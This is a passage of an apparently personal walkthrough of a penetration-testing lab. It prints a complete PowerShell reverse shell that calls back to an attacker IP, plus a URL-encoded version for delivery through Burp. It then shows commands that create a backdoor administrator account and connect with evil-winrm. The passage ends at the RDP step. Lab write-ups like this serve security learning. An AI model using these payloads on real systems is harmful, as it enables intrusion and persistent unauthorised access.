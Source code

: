 Create reverse shell within `a` and URL encode with https://www.urlencoder.org/

    powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.90.200',17000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    
    powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.90.200%27%2C17000%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

Send request through burp:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649003621771_image.png)

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649003642104_image.png)



## Task 21  Git Server Stabilisation & Post Exploitation

Since RDP (3389) and port 5985 identified in prior scans open on target machine and we are `nt system/authority` we can create a user and RDP to machine.

Create user and add to administrators:

    net user exec password /add
    net localgroup Administrators exec /add
    net localgroup "Remote Management Users" exec /add

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649003974913_image.png)


**EvilWinRM - create connection**

install evil-winrm:

    gem install evil-winrm

connect to target:

    evil-winrm -u exec -p password -i 10.200.90.150

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649004256411_image.png)


full reverse shell from attacking machine to target established.


**RDP Connection**
using `xfreerdp` create a connection to target:
